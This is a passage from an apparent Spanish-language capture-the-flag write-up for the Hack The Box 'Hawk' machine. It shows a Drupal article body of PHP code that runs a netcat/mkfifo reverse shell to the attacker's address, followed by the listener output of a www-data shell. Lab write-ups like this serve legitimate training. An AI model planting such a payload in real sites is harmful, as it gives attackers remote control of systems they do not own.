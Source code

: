 ![](/assets/images/htb-hawk/hawk_modules.jpg)

Ahora le damos click al icono de *Home* en la parte superior y seleccionamos al opción ***Add new content***, seleccionamos ***Article*** y llenamos los siguientes campos:
- Title: Reverse shell
- Tags: k4mishell
- Body:
```bash
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 443 >/tmp/f")
?>
```
- Text format: PHP code

Nos ponemos en escucha a través del puerto 443 y guardamos los cambios.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.102] 41610
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Realizamos un [Tratamiento de la tty](/tratamiento-tty) y observamos que nos escontramos dentro de la máquina víctima como el usuario `www-data`; ahora podemos visualizar la flag (user.txt). Para escalar privilegios, debemos tener en cuenta que se encuentra abierto el puerto 8082 asociado al servicio **H2 Console**. 
